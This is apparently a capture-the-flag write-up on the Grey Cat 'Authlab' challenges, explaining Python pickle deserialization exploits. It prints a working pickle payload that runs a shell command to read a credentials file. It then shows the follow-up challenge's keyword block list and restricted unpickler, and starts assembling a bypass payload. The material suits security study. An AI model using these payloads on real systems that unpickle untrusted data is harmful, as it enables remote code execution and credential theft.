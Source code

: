 The payload can also be simplified further to be printable characters, which uses essentially the same idea.

```python
evil_token = b64encode(b"cposix\nsystem\n(S'cat Creds.py'\ntR.")
```

Feeding the token into the server, we get the flag from the admin password dict `{"admin" : "grey{4_p1ck13d_p4ssw0rd_s0uNd5_n1C3}"}`.

Solve scripts: [solve.py](https://raw.githubusercontent.com/k-hian/CTFWriteups/refs/heads/main/Grey%20Cat%20The%20Flag%202025/Authlab/solve/authlab_solve.py)

## Solution (Authlab 1.1)

This is the follow-up to Authlab, with the following additions:

```python
# More secure pickle deserializer
class SecurePickle(pickle.Unpickler):
    def find_class(self, module, name):
        if module != 'builtins' or '.' in name:
            raise KeyError('The pickle is spoilt :(')
        return pickle.Unpickler.find_class(self, module, name)

def loads(s):
    for word in ('os', 'sys', 'system', 'sh', 'cat', 'import', 'open', 'file', 'globals', 'Creds'):
        if word.encode() in s:
            raise KeyError(f'The pickle is spoilt :(')
    return SecurePickle(io.BytesIO(s)).load()

# "ban hammer" that disables a bunch of popular pyjail paths
def BanHammer():
    __builtins__.help = None
    __builtins__.breakpoint = None
    __builtins__.open = None
    __builtins__.exec = None
    __builtins__.eval = None
    __builtins__.compile = None
```

The new restrictions includes a blacklist of a bunch of common pyjail keywords, as well as a new Unpickler that only allows the `builtin` module and disallows periods `.` in the name/attr param (which isn't actually a big deal). I will discuss the idea behind (a slightly better version of) the [original solution](https://github.com/NUSGreyhats/greyctf25-challs-public/blob/main/finals/misc/authlab1.1/solve/solve.py) here. I will be using `pickleassem` to build the payload.

Firstly, we want to run something like `os.system('payload')` like in the first part, which will allow us to read the `Creds.py` file and get the flag. Let's use a (slightly modified) payload from the first part as a starting point.

```python
pa.push_global('posix','system')
pa.pa.push_short_binunicode('cat Creds.py')
pa.build_tuple1()   # builds a tuple of size 1, using the first item on the stack
pa.build_reduce()
```
